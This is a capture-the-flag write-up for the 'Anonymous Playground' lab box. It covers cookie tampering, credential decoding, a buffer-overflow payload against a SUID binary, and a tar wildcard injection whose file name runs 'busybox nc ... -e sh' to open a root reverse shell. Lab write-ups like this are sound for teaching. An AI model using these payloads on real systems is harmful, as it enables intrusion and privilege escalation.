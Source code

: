 # Anonymous Playground

### Anonymous Playground
Nmap scan shows ports 22 and 80 open. <br />
Enumerating the website, there's a list of operatives: <br />
![image](https://github.com/user-attachments/assets/63e69e30-ff9b-4108-9e33-17de5db045a0)<br />
`/robots.txt` shows the presence of `/zYdHuAKjP`. If I visit it, I get access denied:  <br />
![image](https://github.com/user-attachments/assets/91955c97-2d01-4d8a-a0ab-9906960f9fee)<br />
If I intercept the request with burpsuite, I'm using a Cookie `access=denied`:<br />
![image](https://github.com/user-attachments/assets/ee76fe29-6fe6-4f78-83d7-5c9051f0b702)<br />
My guess is to try and switch it to `access=granted`. It works, I got access:<br />
![image](https://github.com/user-attachments/assets/ce2960d4-08b4-4fa9-97cb-5fd9c0535147)<br />
It has the structure of a set of credentials. Also, I can see that many characters of this string often repeat. For example the username `hEzAdCfHzA`. I can see that the pattern `zA` is repeated 2 times, in position 2 and 5. If I look at the list of operatives, I get that only one of them has this pattern, and it is `magna`. <br />
If it's correct, I know the following patterns: 

    hE = m
    zA = a
    dC = g
    fH = n
So If I try to reconstruct the full string, I get: `magna::magna{hAiJ}a{eIaDjBcBhHgA}an{fN}`. This is starting to look more like a set of credentials. I need to find a way to decode the other characters.. <br />
After about 1 hour of trial and error, I finally understood the decoding algorithm. If we consider for each letter its corresponding number in the alphabet, then we just need to sum the two numbers.<br />
For example if `z=26`(it's the last letter of the alphabet) and `A=1`(it's the first letter of the alphabet), if we sum them we get `27`, which is equal to `1 mod 26`. So I believe that the decoding algorithm is simply `a+b mod 26`.
Considering the following index table: <br />
![image](https://github.com/user-attachments/assets/fa86d920-ae87-4329-824e-07c6a8f10963)<br />
If I apply this decoding algorithm to all the unknown characters of the string `magna::magna{hAiJ}a{eIaDjBcBhHgA}an{fN}`, I get the following results: 

    hA = 8 + 1 = 9 --> i
    iJ = 9 + 10 = 19 --> s
    eI = 5 + 9 = 14 --> n
    aD = 1 + 4 = 5 --> e
    jB = 10 + 2 = 12 --> l
    cB = 3 + 2 = 5 --> e
    hH = 8 + 8 = 16 --> p
    gA = 7 + 1 = 8 --> h
    fN = 6 + 14 = 20 --> t
According to this decoding system, the final string should be `magna:magnaisanelephant`. I try these credentials to access ssh and it works! I got the user flag.<br />
I now need to do some lateral movement. Inside magna's home directory there's a SUID file and a note: <br />
![image](https://github.com/user-attachments/assets/cd01c0be-e2b9-4e82-b681-23a0aa26e50a)<br />
Also, if I check the cronjobs, I get: <br />
![image](https://github.com/user-attachments/assets/e23a9977-82a5-46fc-ace3-f39124a301d8)<br />
To exploit this cronjob I need write permissions inside `spooky`'s home directory, which I don't have. So I first need to become spooky, probably by exploiting that SUID binary. <br />
If I try to dissassemble it, I see that there's a function called `call_bash`. But it is never called inside the main. This function executes `system(/bin/sh)` with the privileges of spooky. Also, the main function calls `gets()`, which is vulnerable to buffer overflow. So I need to overflow the buffer with the address of `call_bash`. I check what is the address of the `call_bash` function:<br />
![image](https://github.com/user-attachments/assets/4dc93c61-34ee-43f0-9b30-748d834e345b)<br />
And it is at `0x400657`. So my final payload is `python -c "print('A' * 72 + '\x57\x06\x40\x00\x00\x00\x00\x00')" | ./hacktheworld`:<br />
![image](https://github.com/user-attachments/assets/b57bacec-72db-48ca-bf8b-509fa6b750fd)<br />
The `call_bash` function gets executed. But the problem here is that the shell exits immediately after. The right paylaod to get an working interactive shell is `(python -c "print('A' * 72 + '\xbf\x06\x40\x00\x00\x00\x00\x00')";cat) | ./hacktheworld`. Here I changed two thigs:
- First of all I inserted a `cat` at the end of the command, that is because `cat` takes input from stdin and writes on stdout. This makes sure that the shell will use the same pipe of `cat`, and will be interactive.
- I also changed the target address to `\xbf\x06\x40\x00\x00\x00\x00\x00`. That is something I decided to do after some trial and error, and it's the target address used to spawn the shell. I honestly don't understand why it didn't work with the exact address of `call_bash`. My guess is that since there are other `call` instructions inside `call_bash`, they might fuck up the stack or somehting.. I don't know to be honest. But that payload works and I'm fine with it. <br />
So now I can finally exploit that cronjob.
<br />
To exploit it I'll use tar wildcards. Just run the two following commands:

        echo "" > '--checkpoint=1'
        echo "" > '--checkpoint-action=exec=busybox nc 10.11.127.156 9001 -e sh'
Of course change the IP address and port according to your needs. Then listen with netcat and wait for the root reverse shell!<br />
![image](https://github.com/user-attachments/assets/9236eda1-fe9d-4782-9e6b-eb5f2daf76cc)<br />



